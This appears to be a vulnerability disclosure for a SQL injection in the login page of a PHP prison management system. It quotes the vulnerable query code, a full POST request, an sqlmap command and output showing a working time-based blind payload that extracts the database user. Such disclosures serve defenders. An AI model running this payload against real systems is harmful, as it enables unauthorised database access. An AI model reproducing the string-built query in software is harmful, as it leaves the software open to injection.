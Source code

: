 Prison Management System - SQL Injection on (/prison/Account/login.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/prison/Account/login.php
```

In this scenario, user input (password) is directly  incorporated into an SQL query without any filtering or prepared  statements, making the application susceptible to SQL Injection attacks.

```
26: mysqli_query $result = mysqli_query($conn, $sql); 
25: $sql = "SELECT * FROM users WHERE email='" . $email . "' and password = '" . $password . "'  and status = '" . $status . "'"; 
20: $email = $_POST['txtemail']; 
21: $password = $_POST['txtpassword']; 
22: $status = 'Active'; 
requires:
12: if(isset($_POST['btnlogin']))
```

Proof of vulnerability:

Request:

```
POST /prison/Account/login.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/prison/Account/login.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

txtemail=admin%40qq.com&txtpassword=admin123*&btnlogin=
```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

```
sqlmap identified the following injection point(s) with a total of 206 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: txtemail=admin@qq.com&txtpassword=admin123' AND (SELECT 4485 FROM (SELECT(SLEEP(5)))Yyls) AND 'fzXr'='fzXr&btnlogin=
---
[10:25:02] [INFO] the back-end DBMS is MySQL
[10:25:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[10:25:02] [INFO] fetching current user
[10:25:02] [INFO] retrieved:
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:25:17] [INFO] adjusting time delay to 1 second due to good response times
root@localhost
current user: 'root@localhost'
```


